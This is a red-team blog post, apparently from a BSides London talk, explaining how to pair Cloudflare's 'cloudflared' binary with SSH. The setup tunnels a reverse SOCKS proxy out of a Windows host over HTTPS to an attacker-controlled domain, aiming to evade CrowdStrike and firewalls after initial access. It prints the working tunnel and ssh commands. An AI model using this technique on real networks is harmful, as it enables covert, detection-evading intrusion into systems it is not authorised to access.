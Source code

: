 ```yaml
---
layout: post
title: "Bring Your Own Trusted Binary (BYOTB)"
permalink: "byotb"
date: 02-01-2025
categories: Blog
---
```


As you may have read from my previous post I recently presented a talk on the main stage at BSides London 2024. The topic I chose to present on was in regards bringing trusted binaries to a system and using them in an adversarial fashion. 

This post will cover what I presented and how to use these binaries. If you would also like a copy of the slides they can be found [here.](/assets/files/BSides-BringYourOwnTrustedBinary(BYOTB).pdf)

My talk was mainly focused on binaries that allow for the passing of the following 5 tests:

- Be able to proxy my Kali tools into an environment
- Ignored by CrowdStrike on dropping to disk and on execution
- Firewall friendly
- A good alternative to Ligolo
- Doesn't require a pre-installed SSH client


The first solution is pictured below where the 'cloudflared' binary from, you guessed it, Cloudflare can be used in conjunction with the ssh 'ProxyCommand' to allow 'cloudflared' to transport the ssh data out on port 443 instead of port 22 and also encapsulates the data as https rather than ssh. 

This data then hits a Cloudflare hostname under our control, namely ssh.redteaming.org which is linked to a tunnel running on our Cloud VM. This data is then redirected into our ssh server running on our Cloud VM to complete the tunnel.

<img src="/assets/img/BSides6.jpg" width="200"/>

As discussed during the talk, given Cloudflare is a multi billion dollar company and is being used in perfectly legitimate ways by other big companies, this binary isn't going anywhere anytime soon. So far I haven't come across any issues with running the 'cloudflared' binary against multiple EDR's including CrowdStrike. Obviously if you send hundreds of LDAP queries through this binary you will run into trouble so OPSEC is still a requirement after initial access is gained.

The commands required to carry this out are quite simple. On your cloud VM like Kali, connect to your tunnel configured with the following command:

{% highlight powershell %}
cloudflared tunnel run --token YourTokenHere
{% endhighlight %}

If you need to know more about setting up Cloudflare tunnels please see my [previous blog post](https://www.redteaming.org/c2cloudflare.html) on how to set it up.

Then after starting the tunnel on Kali you can run this command on the Windows client to complete the tunnel.

{% highlight powershell %}
ssh.exe -o ProxyCommand="cloudflared.exe access ssh --hostname %h" david@ssh.redteaming.org -R 1080
{% endhighlight %}
